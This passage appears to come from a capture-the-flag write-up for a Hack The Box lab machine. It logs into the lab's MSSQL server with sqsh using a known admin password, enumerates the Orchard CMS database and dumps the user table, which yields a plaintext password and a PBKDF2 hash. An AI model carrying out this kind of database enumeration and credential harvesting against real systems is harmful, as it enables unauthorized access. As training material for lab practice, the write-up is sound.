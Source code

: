 ### MSSQL Enumeration

We can try connecting to the MSSQL server and see what's inside.

```bash
# connecting to the MSSQL server
$ sqsh -S 10.10.10.52 -U admin -P 'm$$ql_S@_P@ssW0rd!' -h

# list all databases
1> SELECT name FROM master.dbo.sysdatabases
2> go
        master
        tempdb
        model
        msdb
        orcharddb
# list all tables from the orcharddb database
1> SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES
2> go
        <SNIP>
        blog_Orchard_Users_UserPartRecord
        blog_Orchard_Roles_RolesPermissionsRecord
        blog_Orchard_Roles_UserRolesPartRecord
        <SNIP>
# use the orcharddb database
1> use orcharddb
2> go
# select all information from the specified table
1> SELECT * FROM blog_Orchard_Users_UserPartRecord
2> go
           2
        admin
        admin
        AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
        Hashed
        PBKDF2
        UBwWF1CQCsaGc/P7jIR/kg==
        Sep  1 2017 01:44PM Sep  1 2017 02:03PM Sep  1 2017 02:06PM
          15
        James
        james@htb.local
        james
        J@m3s_P@ssW0rd!
        Plaintext
        Plaintext
<SNIP>
```

We have two pair of credentials:

1. `james:J@m3s_P@ssW0rd!`
2. `admin:AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==`
